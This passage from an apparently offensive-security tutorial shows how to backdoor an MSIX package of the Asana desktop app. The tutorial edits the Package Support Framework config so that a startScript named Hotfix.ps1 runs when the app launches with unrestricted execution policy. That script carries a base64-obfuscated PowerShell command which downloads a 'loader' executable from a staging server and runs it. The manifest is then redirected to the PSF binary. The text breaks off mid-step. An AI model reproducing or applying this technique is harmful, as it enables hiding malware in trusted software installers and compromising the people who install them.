 ![msix20](https://github.com/user-attachments/assets/ba54db86-765a-492f-9ead-2bc259dcd86d)

![msix21](https://github.com/user-attachments/assets/9482cf66-032b-4f62-b6fd-7fbdbf388c47)

- You can edit files directly in the package editor by right-clicking and selecting edit. Let’s modify the config file to point to our staging script called Hotfix.ps1. In this example, I enabled the powershell window to debug any errors.

```json
{
  "applications": [
    {
      "id": "ASANA",
      "executable": "asana.exe",
      "scriptExecutionMode": "-ExecutionPolicy Unrestricted",
      "startScript": {
        "waitForScriptToFinish": true,
        "runOnce": false,
        "timeOut": 30000,
        "showWindow": true,
        "scriptPath": "Hotfix.ps1"
      }
    }
  ]
}
```

- Create the `hotfix.ps1` file in a different window. We will add a powershell command that pulls our loader from the staging server and executes it.

![msix22](https://github.com/user-attachments/assets/7f27e44c-9d03-47e8-9a63-7b9fb47e95fa)

```s
powershell -enc "dwBnAGUAdAAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADcANQAuADEAMgA4AC8AMgA0ADoAOQAwADAAMQAvAEgAbwB0AGYAaQB4AC4AZQB4AGUAIAAtAE8AdQB0AEYAaQBsAGUAIABcAFUAcwBlAHIAcwBcAFAAdQBiAGwAaQBjAFwASABvAHQAZgBpAHgALgBlAHgAZQA7AFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADUAOwBcAFUAcwBlAHIAcwBcAFAAdQBiAGwAaQBjAFwASABvAHQAZgBpAHgALgBlAHgAZQA="
```

- Add the `hotfix.ps1` staging script.

![msix23](https://github.com/user-attachments/assets/812e7559-2432-4c76-902e-15e6c7c75c69)

- Back to the manifest file, let’s change the launch executable to our PSF binary so that the hotfix.ps1 can be executed post install.

![msix24](https://github.com/user-attachments/assets/dfc715ea-23b0-489f-a08d-4c3f6046575f)

- In this section, take note of the Application ID defined. We will also modify the executable value.

![msix25](https://github.com/user-attachments/assets/ee9660d2-391c-4f20-9c91-41bc06b929ea)

- Change it to point to the psf executable:

